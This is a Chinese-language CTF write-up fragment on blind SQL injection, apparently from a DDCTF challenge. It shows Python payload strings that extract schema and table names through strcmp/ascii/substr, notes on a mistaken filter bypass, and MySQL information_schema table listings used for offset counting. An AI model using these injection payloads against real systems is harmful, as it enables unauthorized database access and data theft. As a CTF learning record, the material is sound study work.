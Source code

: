 ## 突发奇想

我在做这道题的时候没有用&&代替and导致我产生了如下幻觉：


爆数据库名，没问题:

```python
payload = "admin' and strcmp(ascii(substr((select group_concat(schema_name) from information_schema.schemata),%s,1)),%s) #" %(i,j)
```


爆表名，死活就是不行（其实因为这里有and 和 = ）

```python
payload = "admin' and strcmp(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema='ddctf'),%s,1)),%s) #" %(i,j)
```

### 绕过where

我以为是过滤了where，如果用如下语句，不用where字句，他会把我的所有表项打出来

```sql
select group_concat(table_name) from information_schema.tables;
```

这道题只有俩数据库，information_schema的表项是固定的（和版本有关），所以我先看一下information_schema表项占了多少个字符，在本地用尝试：

```sql
mysql> select @@version;
+-----------+
| @@version |
+-----------+
| 5.1.73    |
+-----------+

mysql> select group_concat(table_name) from information_schema.tables where table_schema='information_schema';

CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEY_COLUMN_USAGE,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,TABLES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILEGES,VIEWS 

```

- mysql 5.1.73共376个字符

```sql
mysql> select @@version;
+-----------+
| @@version |
+-----------+
| 5.7.21    |
+-----------+


CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEY_COLUMN_USAGE,OPTIMIZER_TRACE,PARAMETERS,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,TABLES,TABLESPACES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILEGES,VIEWS,INNODB_LOCKS,INNODB_TRX,INNODB_SYS_DATAFILES,INNODB_FT_CONFIG,INNODB_SYS_VIRTUAL,INNODB_CMP,INNODB_FT_BEING_DELETED,INNODB_CMP_RESET,INNODB_CMP_PER_INDEX,INNODB_CMPMEM_RESET,INNODB_FT_DELETED,INNODB_BUFFER_PAGE_LRU,INNODB_LOCK_WAITS,INNODB_TEMP_TABLE_INFO,INNODB_SYS_INDEXES,INNODB_SYS_TABLES,INNODB_SYS_FIELDS,INNODB_CMP_PER_INDEX_RESET,INNODB_BUFFER_PAGE,INNODB_FT_DEFAULT_STOPWORD,INNODB_FT_INDEX_TABLE,INNODB_FT_INDEX_CACHE,INNODB_SYS_TABLESPACES,INNODB_METRICS,INNODB_SYS_FOREIGN_COLS,INNODB_CMPMEM,INNODB_BUFFER_POOL_STATS,INNODB_SYS_COLUMNS,INNODB_SYS_FOREIGN,INNODB_SYS_TABLESTATS
```